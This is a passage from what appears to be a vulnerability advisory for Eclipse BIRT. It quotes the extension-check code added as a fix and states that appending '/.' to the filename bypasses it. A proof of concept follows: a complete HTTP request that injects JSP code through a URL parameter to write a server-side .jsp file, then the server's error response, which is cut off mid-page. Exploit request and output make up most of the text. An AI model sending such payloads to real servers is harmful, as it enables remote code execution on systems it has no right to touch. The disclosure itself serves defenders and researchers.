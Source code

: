 			if (!allowedExtensionsForRptDocument.isEmpty() && !allowedExtensionsForRptDocument.contains(extension)) {
				validExtension = false;
			}

			if (!validExtension) {
				throw new ViewerException(BirtResources.getMessage(
						ResourceConstants.ERROR_INVALID_EXTENSION_FOR_DOCUMENT_PARAMETER, new String[] { extension }));
			}

		}
	}
-------------------------------------------------------------------------------

This fix can be easily bypassed by adding `/.` to the filename which allows
an attacker to execute arbitrary code.


Proof of concept:
-----------------
1) Remote code execution - CVE-2021-34427 bypass
The old exploit results in an error message:

-------------------------------------------------------------------------------
GET /birt/document?__report=test.rptdesign&sample=<@urlencode_all><%  out.println("OS: " + System.getProperty("os.name"));  out.println("Current dir: " + 
getServletContext().getRealPath("/"));%><@/urlencode_all>&__document=<@urlencode>./test/info-new.jsp<@/urlencode> HTTP/1.1
Host: IP:18080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,de-DE;q=0.5,de;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=C2A5FE509AD277742111569F8656881A
Upgrade-Insecure-Requests: 1
-------------------------------------------------------------------------------

Response:
-------------------------------------------------------------------------------
HTTP/1.1 200
Set-Cookie: JSESSIONID=A1E37E7FEC80DFFF155CAF9F642ADEB7; Path=/birt; HttpOnly
Content-Type: text/html;charset=utf-8
Date: Wed, 05 Oct 2022 06:14:54 GMT
Connection: close
Content-Length: 4644

<html>
<head>
<title>Error</title>
<META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8"/>
</head>
<body>
<div id="birt_errorPage" style="color:red">
<span id="error_icon"  style="cursor:pointer" onclick="if (document.getElementById('error_detail').style.display == 'none') { document.getElementById('error_icon').innerHTML = '- '; 
document.getElementById('error_detail').style.display = 'block'; }else { document.getElementById('error_icon').innerHTML = '+ '; document.getElementById('error_detail').style.display = 'none'; }" > + 
</span>
